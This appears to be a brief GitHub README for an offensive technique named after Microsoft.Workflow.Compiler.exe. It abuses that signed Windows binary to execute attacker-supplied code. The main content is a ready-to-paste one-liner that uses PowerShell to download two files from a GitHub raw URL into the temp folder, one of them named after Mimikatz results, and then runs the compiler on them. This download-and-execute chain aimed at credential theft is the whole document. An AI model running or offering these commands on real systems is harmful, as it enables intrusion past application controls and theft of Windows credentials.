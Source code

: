 # MicrosoftWorkflowCompiler

C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml test.xoml

cd %temp% && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/analyticsearch/MicrosoftWorkflowCompiler/master/test.xml', '.\test.xml') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/analyticsearch/MicrosoftWorkflowCompiler/master/mimikatz_results.xml', '.\test.xoml') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml test.xoml
